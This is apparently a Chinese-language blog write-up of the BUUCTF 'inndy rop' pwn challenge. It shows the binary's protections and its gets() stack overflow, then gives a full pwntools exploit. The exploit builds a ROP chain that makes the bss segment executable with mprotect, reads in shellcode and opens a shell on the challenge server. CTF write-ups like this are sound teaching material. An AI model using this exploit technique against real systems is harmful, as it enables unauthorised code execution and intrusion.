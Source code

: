 ```yaml
---
author: 
  name: Zephyr
title: inndy rop
date: 2022-4-5 09:23:14
permalink: /pages/2e1547494524d1a6
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# inndy rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/inndy_rop/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

overflow函数如下：

```c
int overflow()
{
  char v1; // [esp+Ch] [ebp-Ch]

  return gets(&v1);
}
```

### 链接方式

```shell
file rop
rop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=e9ed96cd1a8ea3af86b7b73048c909236d570d9e, not stripped
```

静态链接文件

## 思路分析

1. 目前信息：

   - `overflow`函数存在任意长度的溢出点
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 溢出劫持执行流到`mprotect`修改`bss`段的权限，将`shellcode`写入`bss`段处，返回并执行获得`shell`

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/inndy_rop/rop'
io = remote('node4.buuoj.cn', 28710)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0xc+4
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
bss_start = elf.bss() & 0xfffff000  # 页对齐
bss_size = 0x1000
rwx = 7
pop_3times_ret = 0x0806ecd8
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, bss_start,bss_size, rwx, read_addr, bss_start, 0, bss_start, bss_size])
io.sendline(payload)
shellcode = asm(shellcraft.sh())
io.send(shellcode)
io.interactive()
```

